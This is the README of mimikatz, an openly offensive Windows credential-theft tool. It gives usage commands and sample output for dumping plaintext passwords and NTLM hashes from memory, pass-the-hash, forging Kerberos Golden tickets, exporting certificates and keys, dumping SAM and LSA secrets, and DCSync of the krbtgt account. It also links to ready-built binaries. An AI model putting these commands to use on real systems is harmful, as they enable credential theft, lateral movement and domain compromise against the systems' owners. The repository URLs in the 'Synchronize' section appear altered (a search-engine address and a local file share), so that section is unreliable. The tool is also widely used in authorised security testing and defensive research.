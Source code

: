 # mimikatz

**`mimikatz`** is a tool I've made to learn `C` and make somes experiments with Windows security.

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */


mimikatz # privilege::debug
Privilege '20' OK
 
mimikatz # sekurlsa::logonpasswords
 
Authentication Id : 0 ; 515764 (00000000:0007deb4)
Session           : Interactive from 2
User Name         : Gentil Kiwi
Domain            : vm-w7-ult-x
SID               : S-1-5-21-1982681256-1210654043-1600862990-1000
        msv :
         [00000003] Primary
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * LM       : d0e9aee149655a6075e4540af1f22d3b
         * NTLM     : cc36cf7a8514893efccd332446158b1a
         * SHA1     : a299912f3dc7cf0023aef8e4361abfc03e9a8c30
        tspkg :
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * Password : waza1234/
...
```
But that's not all! `Crypto`, `Terminal Server`, `Events`, ... lots of informations in the GitHub Wiki https://github.com/gentilkiwi/mimikatz/wiki or on http://blog.gentilkiwi.com (in French, _yes_).

If you don't want to build it, binaries are availables on https://github.com/gentilkiwi/mimikatz/releases


## Quick usage
```
log
privilege::debug
```

### sekurlsa
```
sekurlsa::logonpasswords
sekurlsa::tickets /export

sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

### kerberos
```
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi

kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### crypto
```
crypto::capi
crypto::cng

crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE

crypto::keys /export
crypto::keys /machine /export
```

### vault & lsadump
```
vault::cred
vault::list

token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert

lsadump::dcsync /user:domain\krbtgt /domain:lab.local
```

## Build
`mimikatz` is in the form of a Visual Studio Solution and a WinDDK driver (optional for main operations), so prerequisites are:
* for `mimikatz` and `mimilib` : Visual Studio 2010, 2012 or 2013 for Desktop (**2013 Express for Desktop is free and supports x86 & x64** - http://www.microsoft.com/download/details.aspx?id=44914)
* _for `mimikatz driver`, `mimilove` (and `ddk2003` platform) : Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800_

`mimikatz` uses `SVN` for source control, but is now available with `GIT` too!
You can use any tools you want to sync, even incorporated `GIT` in Visual Studio 2013 =)

### Synchronize!
* GIT URL is  : https://google.com
* SVN URL is  : file://127.0.0.1/c$/
* ZIP file is : https://github.com/gentilkiwi/mimikatz/archive/master.zip

### Build the solution
* After opening the solution, `Build` / `Build Solution` (you can change architecture)
* `mimikatz` is now built and ready to be used! (`Win32` / `x64` even `ARM64` if you're lucky)
  * you can have error `MSB3073` about `_build_.cmd` and `mimidrv`, it's because the driver cannot be build without Windows Driver Kit **7.1** (WinDDK), but `mimikatz` and `mimilib` are OK.

### ddk2003
With this optional MSBuild platform, you can use the WinDDK build tools, and the default `msvcrt` runtime (smaller binaries, no dependencies)

For this optional platform, Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800 and Visual Studio **2010** are mandatory, even if you plan to use Visual Studio 2012 or 2013 after.

Follow instructions:
* http://blog.gentilkiwi.com/programmation/executables-runtime-defaut-systeme
* _http://blog.gentilkiwi.com/cryptographie/api-systemfunction-windows#winheader_

## Licence
CC BY 4.0 licence - https://creativecommons.org/licenses/by/4.0/

`mimikatz` needs coffee to be developed:
* PayPal: https://www.paypal.me/delpy/

## Author
* Benjamin DELPY `gentilkiwi`, you can contact me on Twitter ( @gentilkiwi ) or by mail ( benjamin [at] gentilkiwi.com )
* DCSync and DCShadow functions in `lsadump` module were co-writed with Vincent LE TOUX, you can contact him by mail ( vincent.letoux [at] gmail.com ) or visit his website ( http://www.mysmartlogon.com )

This is a **personal** development, please respect its philosophy and don't use it for bad things!
